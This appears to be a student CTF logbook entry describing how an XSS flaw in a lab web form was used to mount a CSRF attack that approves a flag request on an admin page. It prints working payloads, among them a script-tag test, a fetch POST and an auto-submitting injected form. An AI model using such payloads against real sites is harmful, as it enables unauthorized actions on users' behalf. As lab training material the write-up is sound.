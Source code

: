 ### CTF Logbook - Week 6 (XSS & CSRF)

Connecting to the web server, on port 5004, we are presented with a justification field, which is vulnerable to XSS, as it does not sanitize the input. We tested this by entering a simple script tag, and seeing if it was executed.

```html
<script>alert('XSS')</script>
```

This was executed and an alert box was shown.

![image](screenshots/w6/xss.png)

We then entered a normal string (e.g. "test"), and got to look around the admin page, located at port 5005. It is a simple page, with two disabled buttons, one for giving the flag and one for marking the request as read.

Inspecting the admin page, we found that the 'give the flag' button was a form, which sent a POST request to the server.

```html	
<form method="POST" action="/request/e8d14cd641d7d5457a72b85544f522509446d9db/approve" role="form">
    <div class="submit">
        
        <input type="submit" id="giveflag" value="Give the flag" disabled="">
        
    </div>
</form>
```

#### What we tried

Our initial thought was to inject a script tag, which would enable the button for giving the flag and automatically click it. 

```html
<script>
    document.getElementById("giveflag").disabled = false;
    document.getElementById("giveflag").click();
</script>
```

However, this did not work, as the script was executed at port 5004, and not at port 5005. 

We then tried to use the fetch API to send a POST request, performing the same action as the form. Note that the id for every request is unique and is visible at the top of the page, on port 5004. We had to manually copy and insert it into the script.

```html
<script>
    fetch("http://ctf-fsi.fe.up.pt:5005/request/2192820ffc5638e09269ae45745f59426638b5e8/approve", {
        method: "POST",
        headers: {
            "Content-Type": "application/x-www-form-urlencoded"

        }
    });
</script>
```

This did not work either, as the request was blocked by CORS. 

![image](screenshots/w6/cors.png)

#### The solution 

We ended up injecting HTML code into the justification field, creating a form at port 5004, similar to the one at port 5005. Additionally, we added a script tag, which would automatically submit the form, when the admin visited the page. 

```html
<form method="POST" action="http://ctf-fsi.fe.up.pt:5005/request/af64e4ae7e9e3296eb6799de63c09fbf7be62418/approve" role="form">
    <div class="submit">

        <input type="submit" id="giveflag" value="Give the flag">

    </div>
</form>

<script>
    const button = document.getElementById("giveflag");
    button.click();
</script>
```

This worked, and we were able to get the flag! We successfully exploited the XSS vulnerability to perform a CSRF attack.

![image](screenshots/w6/flag.png)

Note: we had to disable the javascript in the browser, and visit the admin and then the justification page, in order to get the flag. Otherwise, the script would not be executed.


